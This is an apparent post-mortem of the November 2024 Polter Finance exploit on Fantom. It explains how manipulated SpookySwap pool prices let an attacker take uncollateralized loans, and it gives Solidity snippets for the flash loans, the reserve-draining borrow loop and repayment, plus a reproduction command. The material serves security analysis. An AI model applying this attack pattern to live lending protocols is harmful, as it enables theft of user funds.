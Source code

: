 # Exploited Polter Finance
- **Type:** Exploit
- **Network:** Fantom
- **Total lost:** ~ 8.7 M 
- **Category:** Oracle Manipulation
- **Vulnerable contracts:**
- - [0x867fAa51b3A437B4E2e699945590Ef4f2be2a6d5](https://ftmscan.com/address/0x867fAa51b3A437B4E2e699945590Ef4f2be2a6d5#code)
- **Tokens Lost**
- - 9,129,844 WFT
- - 26.69     BOO
- - 475.24    WSOL
- - 0.23      WBTC
- - 10.96     WETH
- - 8763      MIM
- - 56,881    USDC
- - 1,997,342 sFTMX
- - 26,002    axlUSDC
- **Attack transactions:**
- - [0x5118df23e81603a64c7676dd6b6e4f76a57e4267e67507d34b0b26dd9ee10eac](https://ftmscan.com/tx/0x5118df23e81603a64c7676dd6b6e4f76a57e4267e67507d34b0b26dd9ee10eac)

- - Deployer EOA: [0x511f427Cdf0c4e463655856db382E05D79Ac44a6](https://ftmscan.com/address/0x511f427Cdf0c4e463655856db382E05D79Ac44a6)

- **Attack Block:**: 97508838 
- **Date:** Nov 16, 2024
- **Reproduce:** `forge test --match-contract Exploit_Polter_Finance -vvv`

## Step-by-step Overview

The Polter Finance protocol's critical vulnerability stemmed from trusting SpookySwap V2/V3 pool prices for their BOO token oracle. This meant the protocol's lending decisions were based on potentially manipulatable price feeds from DEX pools, which the attacker exploited through flash loans. The vulnerability manifested in `ILendingPool.borrow()` function where borrowing power was calculated using these manipulated prices.

Here's how the attacker leveraged this vulnerability:

1. Setup (Get Initial Flash Loan)
    - Flash loan BOO tokens from SpookySwap V3 pool
    - Prepare for subsequent operations with obtained liquidity

2. Additional Liquidity (V2 Flash Swap)
    - Perform V2 flash swap to get additional BOO tokens
    - This provides more tokens for the attack setup

3. Collateral Setup
    - Deposit minimal collateral (1e18 BOO) into Polter Finance

4. Exploit Execution
    - Systematically drain multiple token reserves through uncollateralized borrowing
    - Target high-value tokens in sequence
    - Transfer stolen assets to attacker address

5. Flash Loan Repayment
    - Swap 5000 WFTM back to BOO tokens
    - Repay flash loan obligations
    - Keep remaining stolen assets as profit

## Detailed Description

1. Gets BOO tokens through SpookySwap V3 flash loan to initiate the attack:

```solidity
// Initial flash loan from V3 pool
pairWftmBooV3.flash(address(this), 0, BOO.balanceOf(address(pairWftmBooV3)), "");

// Flash callback handling
function uniswapV3FlashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external {
    uint256 repay = BOO.balanceOf(address(this)) + fee1;
    // Further attack steps...
}
```

2. Leverages V2 flash swap to obtain more BOO tokens:

```solidity
pairWftmBooV2.swap(0, BOO.balanceOf(address(pairWftmBooV2)) - 1e3, address(this), "0");

// V2 callback implementation
function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) external {
    BOO.approve(address(Lending), 1e18);
    // Initialize exploit sequence...
}
```

3. Sets up minimal collateral and exploits borrowing mechanism:

```solidity
unction exploitToken(IERC20 token) public {
    // Get reserve data for target token
    ILendingPool.ReserveData memory reserveData = Lending.getReserveData(address(token));
    // Execute uncollateralized borrow
    Lending.borrow(address(token), token.balanceOf(reserveData.aTokenAddress), 2, 0, address(this));
    // Transfer stolen tokens
    token.transfer(address(this), token.balanceOf(address(this)));
}

```

4. Systematically drains multiple token reserves:

```solidity
// Execute exploit across multiple tokens
exploitToken(WFTM);
exploitToken(MIM);
exploitToken(sFTMX);
exploitToken(axlUSDC);
exploitToken(WBTC);
exploitToken(WETH);
exploitToken(USDC);
exploitToken(WSOL);
```

5. Repays flash loans and finalizes profit

```solidity
function swapWftmToBoo(uint256 _amountOut) internal {
    address[] memory path = new address[](2);
    path[0] = address(WFTM);
    path[1] = address(BOO);
    Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        _amountOut, 0, path, address(this), block.timestamp + 3600
    );
}

```


## Possible mitigations

1. Implement decentralized oracles with multi-source price feeds to prevent price manipulation.
2. Use TWAP oracles to protect against flash loan attacks and price volatility.

## Sources and references

- [@0xNickLFranklin tweet](https://x.com/0xNickLFranklin/status/1858402633935126969)
- [@Bcpaintball26 tweet](https://x.com/Bcpaintball26/status/1857865758551805976)

